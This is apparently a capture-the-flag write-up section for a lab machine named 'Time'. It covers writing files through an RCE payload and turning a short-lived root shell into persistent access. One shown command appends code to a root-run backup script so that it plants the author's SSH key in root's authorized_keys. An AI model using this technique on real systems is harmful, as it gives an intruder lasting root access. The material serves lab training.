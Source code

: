 ## Beyond Root

### Writing Via RCE

When testing RCE for the initial foothold, I went with a `ping`. I was already
confident that it was starting to work, since the SQL script was being
requested from my supplied URL, and that seemed like a solid way to test RCE
and connectivity back. But as I started to write in my notes that I couldn’t
write a file and see it, I wondered - is that true? There’s a webserver after
all. Perhaps I could write a webshell (not really sure why I need once since I
already have RCE and a reverse shell, but what if a firewall were blocking all
outbound?).

I tried the payload from the site (`id > exploited.txt`), but nothing showed
up at the web root or any folders I knew about. I cheated a bit, since I had a
shell already, and checked.

    
    
    pericles@time:/var/www$ find html/ -name exploited.txt
    

It returned nothing. I modified the payload slightly to `id >
/tmp/exploited.txt`. On re-run, that worked:

    
    
    pericles@time:/var/www$ cat /tmp/exploited.txt 
    uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
    

So why couldn’t I write to the web root? Well, permissions:

    
    
    pericles@time:/var/www$ find html/ -writable
    pericles@time:/var/www$ ls -l               
    total 4
    dr-xr-xr-x 7 pericles pericles 4096 Oct 23 06:44 html
    

There are no folders in `html` that are writable by the pericles user (which
is where the RCE happens).

### Utilizing Short-Lived Shells

The shell that came back dies in about 10 seconds, which is enough time to
grab `root.txt`. But of course I wanted a stable shell. The easy way to do
this is just to have script write my SSH public key into `authorized_keys`:

    
    
    pericles@time:/var/www/html$ echo -e '\nmkdir -p /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'  >> /usr/bin/timer_backup.sh
    

This will create the directory `/root/.ssh` if it doesn’t exist, and then
write my [tiny ed25519 public key](https://medium.com/risan/upgrade-your-ssh-
key-to-ed25519-c6e8d60d3c54) into the `authorized_keys` file.
